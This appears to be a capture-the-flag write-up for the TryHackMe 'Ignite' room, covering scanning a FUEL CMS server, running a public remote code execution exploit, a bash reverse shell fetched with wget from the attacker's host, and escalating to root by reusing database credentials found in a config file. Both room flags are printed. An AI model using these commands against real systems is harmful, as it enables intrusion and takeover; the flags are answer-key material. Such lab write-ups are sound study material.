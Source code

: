 # Ignite

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Ignite](https://tryhackme.com/room/ignite)
>
> *A new start-up has a few issues with their web server.*
>
> ![](.gitbook/assets/ignite.png)

🎯 Target IP: `10.10.174.21`

## Recon

```bash
mkdir ignite
cd ignite
nmap -sV -sC -oA nmap_ignite 10.10.174.21
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

> 📌 Found **FUEL CMS v. 1.4** on port `80`

### Local Recon

Navigate to

- `http://10.10.174.21/`
- `http://10.10.174.21/fuel`
  - `admin`:`admin`

## Exploitation

- Search for a Fuel CMS exploit

```bash
searchsploit fuel cms
searshsploit -m 50477
less 50477.py

python 50477.py -u http://10.10.174.21
```

> 📌 [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

```bash
whoami
```

![](.gitbook/assets/image-20230511172416842.png)

### Reverse Shell

```bash
ip -br -c a
	10.18.65.48 # my IP
	
subl shell.sh

# Insert this line for a bash reverse shell
/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1
```

- Setup a Python web server and a `nc` listener on 2 different tabs

```bash
python -m http.server

nc -nvlp 3333
```

- Back in the exploited Fuel CMS `Enter Command $`

```bash
wget http://10.18.65.48:8000/shell.sh -O shell.sh
bash shell.sh
```

- Reverse shell received in the `nc` terminal

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```



<details>
<summary>Reveal Flag - user.txt: 🚩</summary>


`6470e394cbf6dab6a91682cc8585059b`

![](.gitbook/assets/image-20230511171954548.png)

</details>



## Privilege Escalation

- Enumerate Fuel CMS application
  - `/var/www/html/fuel/application/config/`


```bash
cat /var/www/html/fuel/application/config/database.php
```

```bash
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

> 📌 Found database credentials: `root`:`mememe`

- Try to use those credentials for the `root` user of the system

```bash
su root

whoami
cd
cat root.txt
```



<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`b9bbcb33e11b80be759c4e844862482`

![](.gitbook/assets/image-20230511175207984.png)

</details>



------

